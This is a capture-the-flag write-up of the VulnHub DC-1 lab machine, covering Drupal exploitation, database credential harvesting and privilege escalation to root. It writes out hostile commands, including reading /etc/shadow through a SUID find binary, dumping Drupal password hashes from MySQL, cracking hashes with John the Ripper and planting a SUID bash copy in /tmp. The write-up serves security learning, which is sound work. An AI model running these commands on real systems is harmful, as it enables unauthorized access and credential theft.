# VulnHub: DC-1 — A Journey of Mistakes, Pivots, and Troubleshooting

**Date:** September 2026
**Author:** [Your Name / GitHub Handle]
**Platform:** VulnHub
**Machine:** DC-1
**Difficulty:** Easy
**Objective:** Capture all flags and obtain root access.

---

## Introduction

Most CTF write-ups show a clean path from reconnaissance to root.

This is not one of those write-ups.

This write-up documents how I actually approached **DC-1**: the things I discovered, the mistakes I made, the assumptions that turned out to be wrong, and the pivots that eventually led to root.

My goal was not simply to obtain the flags. I wanted to understand **why each step worked and why the next step made sense**.

The overall attack path was:

```text
Reconnaissance
      ↓
Service Enumeration
      ↓
Drupal Identification
      ↓
Initial Access
      ↓
www-data Shell
      ↓
Drupal Configuration
      ↓
Database Credentials
      ↓
Database Enumeration
      ↓
Drupal Admin Access
      ↓
SUID Enumeration
      ↓
Privilege Escalation
      ↓
Root
```

---

# Phase 1 — Reconnaissance & Enumeration

I started with a full TCP port scan with service and version detection:

```bash
nmap -sV -sC -p- [TARGET_IP]
```

The scan revealed two major services:

```text
22/tcp   open   ssh
80/tcp   open   http
```

### Screenshot — Nmap Results

 


---

## SMB Enumeration

I also ran `enum4linux` against the target to gather additional information from SMB:

```bash
enum4linux [TARGET_IP]
```

The main useful information I obtained was a list of usernames.

At this point, I didn't have credentials or direct access to those accounts, so I recorded the usernames as potential information for later stages rather than immediately trying to use them.

### Screenshot — enum4linux




---

# Phase 2 — Web Enumeration

Port 80 was running a web server, so I opened the target in a browser.

The website initially looked fairly ordinary, but inspecting the page and its source revealed an important clue:

**The website was running Drupal.**

This changed my approach.

Instead of treating the web server as a generic HTTP service, I could now investigate the specific CMS and its known attack surface.

### Screenshot — Drupal Homepage




---

## Directory Enumeration

I also performed web content enumeration using Gobuster:

```bash
gobuster dir \
-u http://[TARGET_IP] \
-w /usr/share/wordlists/dirb/common.txt
```

The goal here was to discover directories and files that were not immediately visible from the homepage.

I combined these results with what I had already learned from the browser and Burp Suite.

---

# Phase 3 — Initial Access

Once I identified Drupal, I researched the version and its known vulnerabilities.

Rather than randomly trying exploits, I searched within Metasploit for Drupal-related modules:

```bash
msfconsole
```

Then:

```text
search drupal
```

I identified a suitable Drupal exploit module for the version running on the target and configured it against the machine.

After executing the exploit, I obtained a shell.

I checked my privileges:

```bash
whoami
```

The result was:

```text
www-data
```

I now had **initial access**, but I was still a low-privileged user.

The initial shell was limited, so I upgraded it to a more usable interactive Bash shell using Python's PTY functionality:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

With a more functional shell, I continued enumerating the Drupal installation and investigating its configuration files.


### Screenshot — Metasploit Exploitation




---

# Phase 4 — Following the Configuration Clue

One of the flags contained a very useful clue:

> **"Good CMS has a configuration and so do you."**

At first, I wasn't completely sure what this meant.

I had already discovered that the target was running Drupal, so I researched how Drupal stores its configuration.

I learned that Drupal installations commonly contain an important configuration file at:

```text
sites/default/settings.php
```

This was the next thing I investigated.

I located the Drupal installation and inspected the configuration:

```bash
cat sites/default/settings.php
```

Inside the configuration, I found the database connection information, including the database username and password.

This was a major pivot.

I had moved from:

```text
Drupal
   ↓
Configuration
   ↓
Database credentials
```

### Screenshot — Drupal Configuration


---

# Phase 5 — Database Enumeration

Now that I had database credentials, I initially tried connecting from my Kali machine:

```bash
mysql -u [DB_USER] -p
```

The connection appeared to hang.

Instead of assuming the credentials were wrong, I investigated the network configuration.

I checked whether MySQL was externally accessible:

```bash
nmap -p 3306 [TARGET_IP]
```

The port was not exposed externally.

This made sense if MySQL was bound to the local interface:

```text
127.0.0.1
```

The database was therefore intended to be accessed from inside the target machine rather than directly from Kali.

### The Pivot

Since I already had a shell on the target, I performed the database query locally:

```bash
mysql -u [DB_USER] -p'[PASSWORD]' [DATABASE] -e "SHOW TABLES;"
```

This worked.

I found the Drupal database tables, including the users table.

I then queried the table:

```bash
mysql -u [DB_USER] -p'[PASSWORD]' [DATABASE] -e "SELECT * FROM users\G"
```

The `\G` formatting made the output easier to read vertically.

The result contained the Drupal administrator account and its password hash.

### Screenshot — Database Access




### Screenshot — Users Table



---

# Phase 6 — Getting Drupal Administrator Access

At this point, I had an administrator password hash.

My first thought was to crack it with John the Ripper.

However, before spending time on password cracking, I checked whether Drupal's command-line tool, **Drush**, was installed:

```bash
drush --version
```

It was.

Since I already had access to the Drupal installation and sufficient privileges to use Drush, I used it to reset the administrator password:

```bash
drush user-password admin --password="[NEW_PASSWORD]"
```

The password was successfully changed.

I then logged into the Drupal administration panel through the browser.

This gave me another level of access and allowed me to retrieve the next flag.

### Screenshot — Drush Password Reset



### Screenshot — Drupal Admin Panel

> **[SCREENSHOT 10 — Drupal administrator access]**
> Show the successful login/admin panel.

### Screenshot — Flag 3



---

# Phase 7 — Privilege Escalation

Flag 3 provided another clue:

> **Use the find command.**

This immediately made me investigate the privileges of the `find` binary.

I checked its permissions:

```bash
ls -l $(which find)
```

I discovered that `find` had the **SUID bit** set.

SUID means that when the executable runs, it can execute with the privileges of the file owner rather than the privileges of the user launching it.

Because `find` was owned by root and had SUID enabled, this was extremely interesting.

### Screenshot — SUID Find


---

## Reading `/etc/shadow`

I tested the SUID behavior using `find`:

```bash
find /etc/shadow -exec cat {} \;
```

This allowed me to access `/etc/shadow`.

The file contained password hashes for system accounts, including `root` and the `flag4` account.

### Screenshot — `/etc/shadow`



---

# Phase 8 — Offline Password Cracking

I copied the relevant hashes to my Kali machine and used John the Ripper with the `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

John successfully cracked the password for the `flag4` account.

The root password, however, did not crack quickly.

Rather than continuing to spend time on a slow password-cracking attempt, I changed direction.

### Screenshot — John the Ripper



---

# Phase 9 — SSH as flag4

I used the recovered credentials to connect through SSH:

```bash
ssh flag4@[TARGET_IP]
```

After logging in, I verified the current user:

```bash
whoami
```

The result:

```text
flag4
```

I now had a stable SSH session instead of relying on the original web shell.

### Screenshot — SSH Session


---

# Phase 10 — Getting Root

I initially tried to modify the root account directly through the SUID `find` technique.

For example, I attempted to invoke `passwd` through the privileged context.

However, the system rejected the operation.

This was an important lesson:

> **Having a SUID binary does not mean every program executed through it will behave exactly like an unrestricted root shell.**

System utilities can perform their own security checks and privilege handling.

Instead of continuing to fight the authentication mechanism, I looked at what else I could accomplish using the SUID `find` primitive.

---

## Creating a Privileged Bash

I used the SUID `find` binary to copy Bash into `/tmp`:

```bash
find /etc/shadow -exec cp /bin/bash /tmp/rootbash \;
```

Then I used the same privileged execution mechanism to set the SUID bit on the copied binary:

```bash
find /etc/shadow -exec chmod +s /tmp/rootbash \;
```

Finally:

```bash
/tmp/rootbash -p
```

The `-p` option tells Bash to preserve its effective privileges rather than dropping them under the circumstances relevant here.

I verified the result:

```bash
whoami
```

and:

```bash
id
```

The result showed that I had obtained root privileges.

### Screenshot — Privileged Bash


---

# Phase 11 — Final Flag

With root access, I could access the root user's home directory.

I located the final flag:

```bash
cat /root/thefinalflag.txt
```

This completed the machine.

### Screenshot — Final Flag


---


# What I Learned

DC-1 taught me that enumeration is not just about collecting information — every finding should lead to a question and a hypothesis.

The main lessons were:

* **Follow the chain:** Drupal → configuration → database credentials → database → administrator access.
* **Think about network boundaries:** a service that is not externally accessible may still be accessible from the compromised machine itself.
* **Look for alternative paths:** before cracking credentials, check whether the current access provides a faster route.
* **Understand SUID:** privileged binaries such as `find` can become powerful privilege-escalation primitives.
* **Learn from failures:** failed attempts helped me understand why something did not work and forced me to adapt instead of following a walkthrough.

## Final Attack Path

```text
Nmap
 ↓
Drupal identification
 ↓
Drupal exploit → www-data
 ↓
settings.php → Database credentials
 ↓
Local MySQL → Drupal users
 ↓
Drush → Administrator access
 ↓
SUID find → /etc/shadow
 ↓
flag4 credentials → SSH
 ↓
SUID find → Privileged Bash
 ↓
Root → Final flag
```

## Conclusion

The most valuable lesson from DC-1 was not a specific exploit, but the methodology:

> **What do I know?**
> **What don't I know?**
> **What can I learn from my current access?**
> **What hypothesis can I test next?**

This mindset is far more useful than memorizing a list of exploits.
